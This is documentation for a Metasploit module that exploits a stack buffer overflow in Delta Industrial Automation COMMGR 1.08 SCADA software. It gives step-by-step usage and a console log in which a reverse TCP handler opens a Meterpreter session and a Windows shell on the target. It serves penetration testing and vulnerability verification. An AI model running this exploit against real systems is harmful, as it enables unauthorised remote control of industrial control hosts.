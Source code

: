 ## Vulnerable Application

Delta Electronics Delta Industrial Automation COMMGR 1.08 is affected by a stack-based buffer overflow vulnerability which can be leveraged by an attacker to execute arbitrary code. This module has been tested successfully on Windows XP SP3, Windows 7 SP1, and Windows 8.1. The vulnerable application is available for download at http://www.deltaww.com/Products/PluginWebUserControl/downloadCenterCounter.aspx?DID=7763&DocPath=1&hl=en-US.

## Verification Steps

  1. Install Delta Industrial Automation COMMGR 1.08
  2. Start ```msfconsole```
  3. Do ```use exploit/windows/scada/delta_ia_commgr_bof```
  4. Do ```set RHOST <target_ip>```
  5. Do ```run```
  6. You should get a shell. :)

## Scenarios

### Delta Industrial Automation COMMGR 1.08 on Windows 7 SP1

```
msf > use exploit/windows/scada/delta_ia_commgr_bof
msf exploit(windows/scada/delta_ia_commgr_bof) > show options

Module options (exploit/windows/scada/delta_ia_commgr_bof):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  502              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   COMMGR 1.08 / Windows Universal


msf exploit(windows/scada/delta_ia_commgr_bof) > set RHOST 192.168.3.64
RHOST => 192.168.3.64
msf exploit(windows/scada/delta_ia_commgr_bof) > run

[*] Started reverse TCP handler on 192.168.3.150:4444
[*] 192.168.3.64:502 - Trying target COMMGR 1.08 / Windows Universal, sending 4601 bytes...
[*] Sending stage (179779 bytes) to 192.168.3.64
[*] Meterpreter session 1 opened (192.168.3.150:4444 -> 192.168.3.64:49170) at 2018-09-18 23:38:51 -0700

meterpreter > sysinfo
Computer        : TEST01
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > shell
Process 932 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Program Files (x86)\Delta Industrial Automation\COMMGR 1.08>exit
exit
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.3.64 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(windows/scada/delta_ia_commgr_bof) >
```
